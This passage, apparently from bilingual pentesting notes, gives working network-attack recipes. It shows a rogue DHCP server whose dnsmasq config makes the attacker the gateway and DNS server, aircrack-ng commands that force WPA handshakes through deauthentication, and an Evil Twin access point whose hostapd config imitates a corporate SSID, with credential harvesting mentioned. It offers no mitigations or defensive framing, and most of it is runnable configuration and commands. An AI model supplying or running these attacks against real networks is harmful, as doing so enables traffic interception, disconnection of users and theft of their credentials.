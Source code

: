 ### DHCP Spoofing

#### Rogue DHCP Server Attack
```
DHCP Spoofing Process:
1. Atacante configura servidor DHCP malicioso
2. Responde a DHCP Discovery requests
3. Proporciona configuración maliciosa:
   - Gateway IP = Atacante IP
   - DNS Server = Atacante IP
   - Subnet válida para evitar sospecha
4. Clientes usan atacante como gateway
5. Todo el tráfico pasa por el atacante

DHCP Server Configuration (dnsmasq):
# /etc/dnsmasq.conf
interface=eth0
dhcp-range=192.168.1.50,192.168.1.100,12h
dhcp-option=3,192.168.1.200  # Gateway (attacker)
dhcp-option=6,192.168.1.200  # DNS server (attacker)
dhcp-authoritative
```

### WiFi Sniffing Techniques

#### Monitor Mode y Packet Capture
```bash
# Configurar interfaz en monitor mode
airmon-ng check kill
airmon-ng start wlan0

# Capturar tráfico WiFi
airodump-ng wlan0mon

# Capturar handshake específico
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Deauthentication attack para forzar handshake
aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon
```

#### Evil Twin Attack
```
Evil Twin Setup:
1. Create rogue access point with same SSID
2. Deauthenticate clients from legitimate AP
3. Clients connect to rogue AP
4. Capture all unencrypted traffic
5. Optional: Credential harvesting portal

# hostapd configuration
interface=wlan0
driver=nl80211
ssid=CompanyWiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=password123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
```